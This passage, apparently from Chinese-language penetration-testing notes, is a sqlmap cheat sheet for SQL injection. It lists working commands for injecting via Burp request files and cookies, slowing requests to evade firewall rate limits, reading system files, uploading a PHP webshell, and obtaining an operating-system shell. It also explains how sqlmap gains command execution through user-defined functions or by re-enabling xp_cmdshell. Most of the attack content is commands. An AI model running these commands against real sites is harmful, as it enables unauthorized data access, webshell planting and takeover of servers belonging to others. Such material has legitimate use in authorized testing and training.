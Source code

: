 ```bash
sqlmap -r "burp.txt" -p "username"	#-p 指定存在注入的参数
```

**Cookie注入**

```bash
sqlmap -u "http://www.vuln.com" --cookie "id=11" --level 2
```

**当防火墙，对请求速度做了限制**

```bash
sqlmap -u "http://www.vuln.com/post.php?id=1" --delay=10
#在每个HTTP请求之间的延迟10秒
```



## 伪静态注入

```bash
sqpmap  -u http://victim.com/id/666*.html --dbs  #在html扩展名前加个'*'
```

## 访问文件系统

仅对MySQL、MSSQL、PosgreSQL有效

数据库用户有读写权限，有目录读写文件权限

```bash
sqlmap -u url --is-dba
#查看是否dba权限,必须为root权限

sqlmap -u url --file-read "C:/Windows/win.ini"		
#读取文件

sqlmap -u url --file-write=D:/shell.php --file-dest=C:/www/shell.php
#上传文件 (本地木马路径:目标网站目录)
```

## 接管操作系统

仅对MySQL、MSSQL、PosgreSQL有效

数据库用户有读写权限，有目录读写文件权限

 sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令** 

```bash
sqlmap -u "URL" --os-shell	#获取系统交互shell或--os-cmd=id执行系统命令
```

[原理](https://blog.sari3l.com/posts/8dea0d95/)就是上传一个upload木马后，再上传一个cmd shell；

当 --os-shell 退出后， 会调用后门脚本删除上传文件后，进行自删除。

> 在 MySQL 和 PostgreSQL 中，sqlmap 可以上传一个包含两个用户自定义函数
>
> 分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件）
>
> 然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。
>
> 在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：
>
> 如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；
>
> 如果该存储过程不存在，sqlmap 则会重新创建它。
>
> 当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。
>